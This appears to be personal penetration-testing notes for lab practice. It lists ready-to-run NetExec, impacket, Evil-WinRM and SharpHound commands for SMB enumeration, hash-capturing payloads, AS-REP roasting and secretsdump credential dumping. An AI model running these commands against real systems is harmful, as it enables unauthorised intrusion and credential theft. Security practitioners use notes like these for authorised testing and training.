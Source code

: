 
# SMB
```bash
nxc smb $ip
```
## Hashgrab
Generates scf, url & lnk payloads to put onto a smb share. These force authentication to an attacker machine in order to grab hashes (for example with responder).
```bash
python3 hashgrab.py $ip <output>
```
## liste les shares
```
nxc smb $ip --shares
```
### with creds
```bash
crackmapexec smb $ip -u 'user' -p 'PASS' --shares
```
## liste users
```bash
nxc smb $ip -u 'guest' -p '' --rid-brute 10000
````

## download files
```bash
nxc smb $ip -u 'guest' -p '' -M spider_plus -o DOWNLOAD_Flag=True
```

## Creer un serveur smb
```
impacket-smbserver <sharename> $(pwd) -smb2support -user <username> -password <pass>
```
```
impacket-smbserver -ip $ip -port 445 shareName .
```

# AD
#ExploitAD
## AS-Rep ROATING
### liste users dont la pré oauth est désactivé
```bash
GetNPUsers -dc-ip $ip <domainNam>/
```
### ask a TGT in John format
```bash
impacket-GetNPUsers -request 'domainName/' -format john -outputfile hash -dc-ip $ip
```

## EvilWinrm
```bash
 evil-winrm -i htb -u 'user' -p 'pass'
```
*Evil-WinRM* PS C:\\Users\\username\\Documents> 
```bash
.\SharpHound.exe --CollectionMethods All --LdapUsername 'username' --LdapPassword 'pass' --Domain 'domiain.local' --ZipFileName ad.zip --OutputDirectory C:\Users\username\Documents\
```

```bash
impacket-secretsdump domain.local/username:pass@$ip
```

